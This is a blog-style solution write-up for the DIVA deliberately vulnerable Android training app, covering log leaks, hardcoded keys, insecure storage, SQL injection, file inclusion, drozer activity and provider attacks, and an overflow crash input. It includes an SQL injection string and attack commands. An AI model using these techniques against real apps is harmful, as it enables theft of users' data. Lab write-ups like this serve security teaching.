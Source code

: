 ```yaml
---
layout: post
title: 'Diva Android Solutions '
description: DIVA Android - Damn Insecure and vulnerable App for Android
date: '2019-07-30 21:03:36 +0530'
categories: Solutions
published: true
---
```


## Diva Android Solutions





![png]({{site.baseurl}}/pics/main.png)


## Insecure Logging

![png]({{site.baseurl}}/pics/insecure.png)

	Develophers use logs to debug their applications. Leaking information in logs is general situation and can be found any system. In android, we can read logs from adb logcat command. Then when we look logs we see our application leakes our credit card number in logs.
 
 
```bash
adb logcat >  out.txt
cat out.txt | grep diva
```

![png]({{site.baseurl}}/pics/insecure-2.png)

![png]({{site.baseurl}}/pics/insecure1code.png)
   When we look at the code the problematic part is that
   ```java 
	Log.e("diva-log", "Error while processing transaction with credit card: " + localEditText.getText().toString());
```
which stores credit card number.


## Hardcoding Issues 1
.hardcodemain
	Sometimes develophers uses critical information as hard-coded. In these example hardcoded part in apk files.
	To get apk  from our phone we use adb pull.
	Then we use bytecodeviewer to open it. When we goto  related class HardcodeActivity we see blow result. Vendor secret leaked. 

	.hardcode

	adb pull apk
	bytecodeviever
	vendorsecretkey


## Insecure Data Storage

	.insecure1main

	These time credentials stored in shared preferences which gives oppurtunity to store small information in xml files. It is stored in shared_prefs directory.

	adb shell
	cd data/data/jakhar.aseem.diva/
	ls
	cd shared_prefs/
	cat jakhar.aseem.diva_preferences.xml




	/data/data/jakhar.aseem.diva/shared_prefs
	jakhar.aseem.diva_preferences.xml
	<?xml version='1.0' encoding='utf-8' standalone='yes' ?>
	<map>
	    <string name="user">adadd</string>
	    <string name="password">sdsdsdsd</string>
	</map>




## Insecure Data Storage 2

	Common method to store data is using databases. In these example data  stored in sqlite databses plaintext.
	To check database we download  by adb pull and open by sqlitebrowser.

```bash
	adb pull data/data/jakhar.aseem.diva/databases/ids2

	sqlitebrowser ids2
```


## Insecure Data Storage 3

	In these example, develpher tore data in tmp file which starts with uinfo.


```bash
	adb pull /data/data/jakhar.aseem.diva/uinfo-493535252tmp
	cat uinfo-493535252tmp
```

## Insecure Data Storage 4

	These time data stored in different directory. To Read file we go location of $EXTERNAL_STORAGE variable.
	```bash
	echo $EXTERNAL_STORAGE
	.uinfo.txt
```


## Input Validation Issues 1
	
	When working with databases valitating input so critical. I fit not done properly or not used properly sql injecttion vulnerability occurs. Below input returns  alll results n table.
```bash
	' or 1=1 --
```


## Input Validation Issues 2

	Also file  inclusion vulnerabilities can be found  in mobile application. In example we can read local files by fiving them.
```bash
	file:///data/data/jakhar.aseem.diva/lib/libdivajni.so
```
## Access Control Issues
	Activities opened by intents and sometimes these activities are not secured. So they can can be called directly.

	To do these we use drozer .To download and setup it you can use following link
	https://github.com/mwrlabs/drozer


```bash	
	activity intent 
	run app.activity.info  -a jakhar.aseem.diva
	jakhar.aseem.diva.APICredsActivity
	run app.activity.start --component jakhar.aseem.diva jakhar.aseem.diva.APICredsActivity
```

## Access Control Issues 2

	TVEETER API Key: secrettveeterapikey\nAPI User name: diva2\nAPI Password: p@ssword2




## Access Control Issues 3
	Like activities, broviders can leake information. 
```bash	
	run app.provider.info -a jakhar.aseem.diva
	run scanner.provider.finduris -a jakhar.aseem.diva
	run scanner.provider.sqltables -a content://jakhar.aseem.diva.provider.notesprovider/notes/
	run app.provider.query content://jakhar.aseem.diva.provider.notesprovider/notes/
```


## Hardcoding Issues 2

	These time critical insormation is in libraries.

```bash	
adb pull lib/lib.so
strings
olsdfgad;lh
```


## Input Validation Issues 3

	Example includes overflow vulnerability.
	To crach app we try each time more character.
	When reached maximum app will crash.


```bash	pppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppppp
```




